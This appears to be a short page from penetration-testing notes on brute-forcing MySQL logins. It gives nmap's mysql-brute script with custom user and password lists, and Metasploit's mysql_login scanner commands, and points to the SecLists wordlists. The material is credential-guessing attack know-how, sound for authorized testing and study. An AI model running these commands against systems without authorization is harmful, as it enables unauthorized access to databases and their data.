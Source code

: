 # Brute-force MySQL

Reduce the pool of users for the brute-force attack by [user enumeration](../enumeration/mysql.md).

## Nmap

`nmap` uses default password and user lists, but do plug in other lists:

```text
nmap --script mysql-brute <target>
--script-args userdb=<path> - plug in list of logins
--script-args passdb=<path> - plug in list of passwords
```

## Metasploit

```text
msf > use auxiliary/scanner/mysql/mysql_login
msf auxiliary(mysql_login) > set USER_FILE /root/login/logins
msf auxiliary(mysql_login) > set PASS_FILE /root/login/password
msf auxiliary(mysql_login) > set RHOSTS <target>
msf auxiliary(mysql_login) > exploit
```

## Resources

* [SecLists](https://github.com/danielmiessler/SecLists)